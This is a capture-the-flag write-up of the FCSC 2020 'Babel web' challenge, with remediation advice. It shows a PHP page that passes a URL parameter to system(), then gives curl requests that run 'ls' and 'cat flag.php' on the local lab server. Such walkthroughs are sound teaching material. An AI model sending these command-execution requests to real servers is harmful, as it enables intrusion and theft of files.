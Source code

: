 # Babel web

## Description

First, download docker-compose.yml:

```bash
curl https://hackropole.fr/challenges/fcsc2020-web-babel-web/docker-compose.public.yml -o docker-compose.yml
```

Launch the challenge by executing in the same folder:

```bash
docker compose up

```

Access the challenge at <http://localhost:8000/>.

## Findings

1. Visiting <http://localhost:8000/> displays a "Work in progress" page.

In the page source, we find the following commented HTML:

```html
<!-- <a href="?source=1">source</a> -->
```

1. Navigating to <http://localhost:8000/?source=1> reveals the source code of the PHP file:

```php
<?php
    if (isset($_GET['source'])) {
        @show_source(__FILE__);
    }  else if(isset($_GET['code'])) {
        print("<pre>");
        @system($_GET['code']);
        print("<pre>");
    } else {
?>
```

Here's what this code does:

- If the **\_GET['source']** parameter is set, it shows the source code of the current file.

- If the **\_GET['code']** parameter is set, it executes the command provided via the URL using system().

## Vulnerabilities

RCE : Remote Code Execution (RCE) on the `code` parameter. We can execute system command on the remote server.

## Explotation

Use the `code` parameter to list the files il the directory.

```bash
$ curl -G -d "code=ls" http://localhost:8000/
<pre>flag.php
index.php
<pre>⏎
```

Now, flag is accessible in flag.php, just cat the file.

```bash
curl -G -d "code=cat%20flag.php" http://localhost:8000/
```

## Remediations

1 . Remove the use of `@system();`. This a is a dangerous function, especially when the user can controll what it's executed. (you can secure by disabling theses function in php.ini)
2. Avoid `@show_source(__FILE__);`. This give all the buiness logic, potential vulnerabilities, to the attackers.
3. Avoid `@show_source(__FILE__);`. This give all the buiness logic, potential vulnerabilities, to the attackers.
